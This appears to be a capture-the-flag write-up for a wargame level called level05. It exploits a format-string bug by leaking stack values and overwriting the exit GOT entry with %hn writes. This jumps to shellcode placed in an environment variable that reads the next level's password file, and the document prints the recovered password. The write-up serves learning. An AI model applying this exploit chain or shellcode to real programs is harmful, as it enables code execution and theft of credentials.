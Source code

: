 # level05

```
level05@OverRide:~$ perl -e 'print "aaaa_" . "%08x "x12 . "\n"' | ./level05
aaaa_00000064 f7fcfac0 f7ec3af9 ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 3830255f 30252078
```
We used `%08x` pattern to find out the location of format string. `61616161` is the beginning of the string.

```
level05@OverRide:~$ objdump -R level05 | grep exit
080497e0 R_386_JUMP_SLOT   exit
```
Our plan is to overwrite the address of `exit` function in the `.got` section.

```
level05@OverRide:~$ export SHELLCODE=`perl -e 'print "A"x100 . "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass"'`
level05@OverRide:~$ /tmp/getenv
0xffffd845
level05@OverRide:~$ perl -e 'print pack("V", 0x080497e0) . pack("V", 0x080497e2) . "%55357u%10\$hn" . "%10170u%11\$hn"' | ./level05
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
Since the address of our shellcode is too big, we overwrite the target 2 bytes each time. First 2 bytes we input the data `0xd845 - 0x8(8 bytes address we've already printed) = 0xd83d(55357)`, then we overwrite the next 2 bytes `0xffff - 0xd845 = 0x27ba`.
